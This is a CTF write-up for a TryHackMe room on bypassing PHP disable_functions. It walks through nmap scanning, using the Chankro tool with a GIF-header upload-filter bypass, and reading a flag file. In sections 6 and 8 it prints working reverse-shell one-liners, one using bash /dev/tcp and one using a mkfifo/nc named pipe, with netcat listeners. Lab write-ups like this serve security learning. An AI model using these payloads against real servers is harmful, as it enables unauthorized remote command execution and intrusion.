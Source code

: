 ```yaml
---
title: "TryHackme: Bypass Disable Functions"
author: NeoVirex
categories: [TryHackMe]
tags: [thm]
render_with_liquid: false
media_subpath: /images/tryhackme/tryhackme_bypass_disable_functions/
image:
  path: room_img.png
description: "This room teaches how to bypass PHP disabled functions, commonly used in Web CTFs and real-world restricted environments."
---
```

# Bypass Disable Functions

Created: April 20, 2024 5:36 PM
Finishing Date: April 22, 2024
Status: Done

### 🛡️ TryHackMe: "Bypass Disabled Functions" Challenge — Full Walkthrough

---

### **1. Initial Reconnaissance with Nmap**

- **Command Used:**
    
    ```bash
    nmap -p- -n -T5 -v --open -oG full-scan.txt [Target_IP]
    
    ```
    
- **Explanation of Options:**
    - `p-`: Scan all 65,536 ports.
    - `n`: Disable DNS resolution to speed up scanning.
    - `T5`: Set aggressive timing for faster scan.
    - `v`: Verbose output.
    - `-open`: Show only open ports.
    - `oG`: Output in grep-able format.
- **Result:** Discovered open ports `22` (SSH) and `80` (HTTP).

---

### **2. Service Enumeration**

- **Command Used:**
    
    ```bash
    nmap -sC -sV -p22,80 [Target_IP]
    
    ```
    
- **Explanation of Options:**
    - `sC`: Run default scripts (basic info gathering).
    - `sV`: Detect version info for each service.
- **Result:** Basic service info gathered — SSH and a web server running on port 80. Next step: manual web enumeration.

---

### **3. Web Exploration & PHP Info Page**

- **Findings:**
    - A **file upload** page is available.
    - A **`phpinfo.php`** file reveals important PHP settings.
- **Critical Insight from `phpinfo()`:**
    - Common execution functions like `exec`, `system`, `shell_exec`, etc. are **disabled** via `disable_functions`.

---

### **4. Exploiting PHP Mail Function with Chankro**

- **What is Chankro?**
    - A tool that **bypasses disabled PHP functions** using `mail()` and environment variable manipulation via `putenv()`.
- **Steps:**
    1. Create a shell script:
        
        ```bash
        #!/bin/bash
        whoami > /var/www/html/[web_path]/winsad.txt
        
        ```
        
        Save as `command.sh`.
        
    2. Run Chankro:
        
        ```bash
        ./chankro -arch 64 -input command.sh -output winsad.php -path /var/www/html/[web_path]/
        
        ```
        
    3. Add **GIF header** to bypass upload filters:
        
        ```bash
        sed -i '1s/^/<?php echo "GIF89a"; ?>\n/' winsad.php
        
        ```
        

---

### **5. Uploading & Executing Payload**

- **Upload Trick:** Rename the PHP payload with `.php` extension, but prepend `GIF89a;` to bypass image validation.
- **Accessing Payload:**
    - Navigate to:
        
        `http://[Target_IP]/[upload_path]/winsad.php`
        
- **Confirm Execution:** Check `winsad.txt` for output.

---

### **6. Getting a Reverse Shell**

- **Update `command.sh`:**
    
    ```bash
    #!/bin/bash
    bash -c 'bash -i >& /dev/tcp/[Your_IP]/443 0>&1'
    
    ```
    
- **Repeat Chankro Build:**
    
    ```bash
    ./chankro -arch 64 -input command.sh -output winsad.php -path /var/www/html/[web_path]/
    
    ```
    
- **Upload Again**, add GIF header, and host a listener:
    
    ```bash
    nc -lnvp 443
    
    ```
    
- **Trigger Shell:**
    - Visit the uploaded PHP file URL in your browser.

---

### **7. Post-Exploitation: Finding the Flag**

- **Shell Session Output:**
    
    ```bash
    www-data@ubuntu:/var/www/html/[path]/uploads$ ls
    acpid.socket  chankro.so  shell.php  try.php
    
    ```
    
- **Navigate to Home Directory:**
    
    ```bash
    cd /home
    ls
    cd s4vi
    ls
    cat flag.txt
    
    ```
    
- **Flag Output:**
    
    ```bash
    head -c 100 flag.txt; echo
    thm{bypass_d1sable_functions_1n_php}
    
    ```
    

---

### **8. Alternative Reverse Shell using Named Pipe**

- **Command:**
    
    ```bash
    rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc [Your_IP] 9001 > /tmp/f
    
    ```
    
- **Listener Setup:**
    
    ```bash
    nc -lnvp 9001
    
    ```
    
- **Note:** Some `nc` versions (like OpenBSD) do **not support `c`** (e.g., `nc -c sh`). Use traditional methods instead.

---

### 📌 Summary:

This challenge tests your ability to:

- Enumerate and identify PHP restrictions.
- Use tools like **Chankro** to bypass disabled functions.
- Upload files while bypassing content filters.
- Establish a **reverse shell** and extract sensitive data (like flags).

All steps above were **essential** for achieving shell access and solving the room.

---

<style>
.center img {display:block; margin:auto;}
.wrap pre{white-space: pre-wrap;}
</style>
